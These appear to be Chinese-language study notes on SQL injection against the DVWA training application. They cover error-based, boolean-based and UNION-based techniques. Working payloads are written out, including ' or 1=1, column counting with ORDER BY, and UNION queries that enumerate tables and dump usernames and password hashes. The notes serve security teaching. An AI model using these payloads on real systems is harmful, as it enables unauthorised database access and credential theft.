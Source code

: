 当前 SQL 所使用的库为 dvwa，搜索框正常输入 1 ，能够查询处结果

输入单引号，产生了<u>语法错误</u>(有注入的可能性、有注入点，如果弹出信息表示输入错误，说明单引号不能作为输入，被过滤了)，说明能够**接受**单引号作为输入，即用户的输入没有被正当处理，如果后台的处理能够主动过滤单引号(不会把单引号带入 sql 语句中)，则也不会引起错误了 - 通过单引号构造语句

  ```mysql
  # You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1
  
  SELECT first_name, last_name FROM users WHERE user_id = ''
  select first_name,last_name from dvwa.users where user_id = '1'
  select first_name,last_name from dvwa.users where user_id = '''
  
  # 获取当前数据库
  1' union select 1,database() #
  
  # 获取数据库中的表
  1' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
  
  # 获取表中的字段名
  1' union select 1,group_concat(column_name) from information_schema.columns where table_name='users' #
  
  # 得到数据
  1' union select group_concat(user_id,first_name),group_concat(password) from users #
  
  # 此处password是密文，需要MD５转换
  ```


### 基于布尔的注入

布尔逻辑注入的思路是闭合 SQL 语句、构造 or 和 and 逻辑语句、注释多余的代码

```mysql
SELECT first_name, last_name FROM users WHERE user_id = ''
# ' or 1=1 -- zzr
SELECT first_name, last_name FROM users WHERE user_id = ' ' or 1=1 -- zzr '
# or 前面的单引号闭合前面的语句
# or 1=1 为真的条件
# -- 注释后面的语句，必须把最后的单引号注释掉
# --后一定要有空格才可以注释,不加空格会报错
# 在 -- 后一定要加一个空格
```


### 基于 UNION 注入

```mysql
# UNION语句用于联合前面的SELECT查询语句，合并查询更多的信息
# 一般通过错误和布尔注入确认注入点之后，便开始通过UNION语句来获取有效信息

# 猜测数据列数
' union select 1 -- '
' union select 1,2 -- '
' union select 1,2,3 -- '
' order by 1 #
' order by 2 #
' order by 3 # 
# Unknown column '3' in 'order clause'

# SQL注入语句解析
mysql> select first_name,last_name from dvwa.users where user_id = '' union select 1 -- ''

# 获得当前数据库及用户信息
# version() 获取数据库版本信息
```